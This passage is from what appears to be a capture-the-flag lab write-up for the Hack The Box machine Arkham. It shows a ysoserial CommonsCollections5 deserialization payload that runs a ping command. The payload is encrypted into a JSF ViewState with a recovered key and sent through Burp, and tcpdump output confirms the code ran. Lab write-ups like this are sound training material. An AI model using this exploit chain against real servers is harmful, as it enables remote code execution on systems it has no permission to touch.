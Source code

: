 It looks like it is working. Great! What now ... ?

We need some payload as the java serialization object that we pass to the webserver. I have found a tool called [ysoserial](https://github.com/frohoff/ysoserial). From this point on, I had to find the correct payload type and settled with `CommonsCollections5`, since this one worked for me.

```console
root@kali:~/HTB/Arkham# java -jar /opt/ysoserial/ysoserial.jar CommonsCollections5 "ping -n 10 10.10.13.251" > a.file
root@kali:~/HTB/Arkham# python3 viewstate.py encrypt SnNGOTg3Ni0= a.file | xclip -sel clipboard
```

We can then paste this in burp send the request, while doing a `tcpdump` on our own box. Don't forget to urlencode the payload in burp! Don't worry about the `500` HTTP errors.

![burp](burpexploit.png)

```console
root@kali:~/HTB/Arkham# tcpdump -i any icmp
```

```plaintext
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
[...]
21:49:26.854258 IP kali > 10.10.10.130: ICMP echo reply, id 1, seq 131, length 40
21:49:27.869236 IP 10.10.10.130 > kali: ICMP echo request, id 1, seq 132, length 40
21:49:27.869299 IP kali > 10.10.10.130: ICMP echo reply, id 1, seq 132, length 40
21:49:28.873916 IP 10.10.10.130 > kali: ICMP echo request, id 1, seq 133, length 40
21:49:28.873978 IP kali > 10.10.10.130: ICMP echo reply, id 1, seq 133, length 40
21:49:29.876860 IP 10.10.10.130 > kali: ICMP echo request, id 1, seq 134, length 40
[...]
```
